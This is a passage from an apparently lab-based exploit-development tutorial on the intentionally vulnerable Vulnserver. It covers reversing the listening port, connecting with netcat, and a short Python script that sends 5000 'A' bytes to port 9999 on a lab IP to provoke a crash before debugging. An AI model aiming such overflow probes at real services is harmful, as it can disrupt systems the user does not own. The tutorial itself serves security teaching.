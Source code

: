 <p align="justify">
As we see above, the second argument is a pointer to a NULL-terminated ANSI string that contains either a service name or port number which is represented as a string.
</p>

<p align="justify">
Similar information regarding the port number we also get from the <code><b>ntohs</b></code> function, which,  in general terms and according to MSDN, converts a <code><b>u_short</b></code> from TCP/IP network byte order to host byte order (which is little-endian on Intel processors). The <code><b>ntohs</b></code> function can be used to convert an IP port number in network byte order to the IP port number in host byte order. Following, is the prototype of the <code><b>ntohs</b></code> function
</p>


```c
u_short ntohs(
  u_short netshort
);
```

<p align="justify">
Now that we got this information, we can confirm that the server listens on port <code><b>9999</b></code>. As we see below, we are running netcat tool to connect to port <code><b>9999</b></code></p>

<script id="asciicast-mkwzV0kymb3F0BmRStGe45boN" style="display: block;margin-left: auto;margin-right: auto;" src="https://asciinema.org/a/mkwzV0kymb3F0BmRStGe45boN.js" async></script>

<p align="justify">
As we see, there are some commands used by the vulnserver that should be investigated more. At this point we will perform some research regarding the functionality of the vulnserver. We will be using the following poc script in order to send some junk data to the vulnserver.   

</p>

```python 
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.201.9"
port = 9999

buffer = "A"*5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send(buffer)
print s.recv(1024)
s.close()
```

<p align="justify">
At this point we are ready to run the script above in order to observe the functional behaviour of the vulnserver. For this reason we will be using WinDbg and IDA Pro. First we will run vulnserver on the target machine and then we will start IDA and attach WinDbg as seen below  
</p>
